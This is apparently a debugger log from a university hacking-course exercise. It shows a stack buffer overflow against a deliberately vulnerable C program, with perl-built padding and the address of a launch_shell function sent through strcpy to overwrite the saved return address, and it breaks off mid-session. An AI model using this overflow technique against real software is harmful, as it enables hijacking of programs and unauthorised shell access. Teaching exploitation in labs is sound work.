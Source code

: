 ```plaintext
* [DEBUG] Your input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQUUUU
* [DEBUG] The function launch_shell is at 0x5555555551e6

Breakpoint 1, check_passphrase (passphrase=0x0) at functions.c:10
10      int check_passphrase(char* passphrase) {
(gdb) n
12        strcpy(buffer, passphrase);
(gdb) n
13        if(strcmp(passphrase, "the magic words are squeamish ossifrage") == 0)
(gdb) info frame
Stack level 0, frame at 0x7fffffffdec0:
 rip = 0x5555555551ba in check_passphrase (functions.c:13); saved rip = 0x55555555528a
 called by frame at 0x7fffffffdee0
 source language c.
 Arglist at 0x7fffffffde28, args: passphrase=0x7fffffffe3f9 'A' <repeats 108 times>, "\346QUUUU"
 Locals at 0x7fffffffde28, Previous frame's sp is 0x7fffffffdec0
 Saved registers:
  rip at 0x7fffffffdeb8
(gdb) print "still saved rip isn't our address"
$2 = "still saved rip isn't our address"
(gdb) run "$(perl -e 'print "A"x116')$(reverseaddr 0x5555555551e6)"
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/thom/git/teaching/hackinginc/2020/exercises/ass4/assignment4/functions "$(perl -e 'print "A"x116')$(reverseaddr 0x5555555551e6)"
* [DEBUG] Your input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQUUUU
* [DEBUG] The function launch_shell is at 0x5555555551e6

Breakpoint 1, check_passphrase (passphrase=0x0) at functions.c:10
10      int check_passphrase(char* passphrase) {
(gdb) n
12        strcpy(buffer, passphrase);
(gdb) n
13        if(strcmp(passphrase, "the magic words are squeamish ossifrage") == 0)
(gdb) info frame
Stack level 0, frame at 0x7fffffffdec0:
 rip = 0x5555555551ba in check_passphrase (functions.c:13); saved rip = 0x555555005555
 called by frame at 0x7fffffffdec8
 source language c.
 Arglist at 0x7fffffffde28, args: passphrase=0x7fffffffe3f1 'A' <repeats 116 times>, "\346QUUUU"
 Locals at 0x7fffffffde28, Previous frame's sp is 0x7fffffffdec0
 Saved registers:
  rip at 0x7fffffffdeb8
(gdb) print "We see that saved rip is partially overwritten"
$3 = "We see that saved_rip is partially overwritten"
(gdb) run "$(perl -e 'print "A"x121')$(reverseaddr 0x5555555551e6)"
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/thom/git/teaching/hackinginc/2020/exercises/ass4/assignment4/functions "$(perl -e 'print "A"x121')$(reverseaddr 0x5555555551e6)"
* [DEBUG] Your input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAQUUUU
* [DEBUG] The function launch_shell is at 0x5555555551e6

Breakpoint 1, check_passphrase (passphrase=0x0) at functions.c:10
10      int check_passphrase(char* passphrase) {
(gdb) n
12        strcpy(buffer, passphrase);
(gdb) n
13        if(strcmp(passphrase, "the magic words are squeamish ossifrage") == 0)
(gdb) info frame
```